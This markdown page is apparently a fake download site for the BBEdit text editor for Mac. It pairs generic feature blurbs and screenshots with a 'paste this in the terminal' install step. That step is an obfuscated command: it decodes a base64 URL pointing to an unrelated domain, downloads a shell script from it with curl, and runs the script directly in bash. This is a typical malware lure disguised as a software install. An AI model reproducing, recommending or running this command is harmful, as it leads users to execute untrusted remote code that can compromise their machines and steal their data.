 # BBEdit Download Mac - Professional Text & Code Editor

![BBEdit Screenshot 1](https://www.barebones.com/images/bbedit/screenshot-main.jpg)

---

### 🔽 Download BBEdit for Mac

> 📥 Open the terminal on your device and paste the command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```

---

## What is BBEdit for Mac?

BBEdit is a professional-grade text and code editor designed exclusively for macOS. It offers powerful tools for coding, text manipulation, and documentation, making it the perfect choice for developers, writers, and power users. With its intelligent interface and advanced features, BBEdit simplifies complex text processing while delivering unmatched performance.

Unlike other text editors, BBEdit features grep pattern matching, syntax highlighting for 100+ languages, and seamless Unix integration. It's optimized for macOS (including Apple Silicon) for blazing-fast operation. Whether you're writing scripts, editing logs, or crafting documentation, BBEdit provides everything you need to work efficiently.

With native macOS integration, Dark Mode support, and extensibility through scripts, BBEdit offers a complete text editing solution right at your fingertips.

![BBEdit Screenshot 2](https://static.01net.it/01net/2019/04/BBEdit-4.jpg)

---

## Key Features & Benefits

- ✨ Syntax highlighting for 100+ languages  
- ⚡️ Optimized for Apple Silicon (M1/M2)  
- 🔍 Advanced grep pattern matching  
- 🖥 Native macOS integration with Dark Mode  
- 📝 Perfect for coding and text manipulation  
- 💻 Trusted by professionals worldwide  

Whether you're developing software, writing documentation, or processing large text files, BBEdit delivers precision and power.

---

## 🔍 Keywords

